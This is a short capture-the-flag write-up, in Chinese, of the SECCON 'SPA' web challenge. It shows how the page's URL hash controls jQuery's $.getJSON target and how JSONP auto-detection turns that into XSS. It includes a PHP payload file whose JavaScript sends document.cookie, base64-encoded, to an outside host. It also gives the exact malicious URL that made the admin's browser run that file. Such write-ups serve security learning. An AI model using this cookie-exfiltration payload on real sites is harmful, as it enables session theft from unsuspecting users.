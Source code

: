 # SPA

(賽中未解，差最後一步小細節QQ)

從`onHashChange()`->`contestId = location.hash.slice(1);`->`this.goContest(contestId)`->`this.fetchContest(contestId)`-> ``` this.contest = await $.getJSON(`/${contestId}.json`) ```

這裏可以任意控制`$.getJSON`的URL，並覆蓋掉`contest`內容

e.g. `http://spa.chal.seccon.jp:18364/#//kaibro.tw/a.php?`

但後續的輸出都有好好的escape，沒辦法做XSS

<br>

賽中翻了文件，發現`$.getJSON`會去自動判斷JSONP，所以有機會可以XSS

但踹了老半天沒踹出來

後來發現只是URL小地方沒填好

<br>

構造a.php:

```php
<?php
header("Access-Control-Allow-Origin: *");
header("Content-type: application/javascript");
?>
fetch("http://kaibro.tw/?"+btoa(document.cookie));//
```

接著讓admin訪問:

`http://spa.chal.seccon.jp:18364/#//kaibro.tw/a.php?callback=?&`

此時，`$.getJSON`會自動判斷成JSONP callback來處理

因此a.php內容被當成js執行

=> `flag=SECCON{Did_you_find_your_favorite_flag?_Me?_OK_take_me_now_:)}`

